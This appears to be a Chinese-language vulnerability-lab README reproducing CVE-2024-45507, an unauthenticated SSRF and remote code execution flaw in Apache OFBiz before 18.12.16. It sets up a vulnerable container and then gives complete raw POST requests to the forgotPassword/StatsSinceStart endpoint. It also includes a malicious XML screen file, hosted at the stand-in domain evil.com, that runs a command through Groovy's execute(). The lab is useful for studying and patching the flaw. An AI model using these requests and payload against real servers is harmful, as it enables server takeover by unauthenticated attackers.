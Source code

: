 # Apache OFBiz SSRF 和远程代码执行漏洞（CVE-2024-45507）

Apache OFBiz是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

Apache OFBiz 18.12.16之前的版本存在一处SSRF与远程命令执行漏洞，未经身份验证的攻击者可以利用该漏洞执行任意命令并控制服务器。

参考链接：

- <https://github.com/apache/ofbiz-framework/commit/ffb1bc4879>
- <https://xz.aliyun.com/t/15569>
- <https://paper.seebug.org/3228/>

## 漏洞环境

执行以下命令启动一个Apache OFBiz 18.12.15服务器：

```
docker compose up -d
```

等待片刻后，您可以在`https://localhost:8443/accounting`看到登录页面。

## 漏洞复现

### SSRF漏洞

向`/webtools/control/forgotPassword/StatsSinceStart`发送以下POST请求即可：

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

## 远程代码执行漏洞

在公共服务器上创建一个恶意的XML文件（payload.xml），例如`http://evil.com/ofbiz/payload.xml`：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

然后将恶意XML的URL替换进请求中发送：

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://evil.com/ofbiz/payload.xml
```

![](1.png)

进入容器中，可见命令`touch /tmp/success`已经被成功执行：

![](2.png)
